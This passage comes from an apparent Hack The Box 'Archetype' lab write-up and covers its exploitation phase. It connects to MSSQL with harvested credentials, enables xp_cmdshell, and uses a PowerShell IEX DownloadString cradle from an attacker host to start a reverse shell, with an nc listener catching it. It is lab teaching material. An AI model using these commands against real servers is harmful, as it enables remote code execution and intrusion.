 \newpage
## Phase #2: Exploitation
1\. Since the `1443/tcp` port is open for SQL service and we also have credentials for the default user, let's connect to the remote service and explore further:  
``` {.python .numberLines}
mssqlclient.py -windows-auth "sql_svc@10.10.10.27"

```

![writeup.exploitation.steps.1.1](Box%20Write-ups/htb.archetype/screenshot04.png)  

2\. We find that the user has `sysadmin` access (highest access level on SQL server) using the `IS_SRVROLEMEMBER` function. This allows us to enable `xp_cmdshell` to gain command execution:  
``` {.python .numberLines}
SELECT IS_SRVROLEMEMBER('sysadmin')

EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;

```

3\. Let's run the `whoami` command using the `xp_cmdshell` method and check our current privileges. We find that our current user `sql_svc` lacks `Administrator` access on the system:  
``` {.python .numberLines}
xp_cmdshell "whoami"

```

![writeup.exploitation.steps.3.1](Box%20Write-ups/htb.archetype/screenshot05.png)  

4\. Let's deploy a Powershell reverse shell on the system using `xp_cmdshell` to gain interactive access on the system:  
``` {.python .numberLines}
type shell.ps1
  xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.33/shell.ps1\");"
python3 -m http.server 80
ufw allow from 10.10.10.27 proto tcp to any port 80,443
nc -nlvp 443

```

![writeup.exploitation.steps.4.1](Box%20Write-ups/htb.archetype/screenshot06.png)  

![writeup.exploitation.steps.4.2](Box%20Write-ups/htb.archetype/screenshot07.png)  

![writeup.exploitation.steps.4.3](Box%20Write-ups/htb.archetype/screenshot08.png)  

![writeup.exploitation.steps.4.4](Box%20Write-ups/htb.archetype/screenshot09.png)  
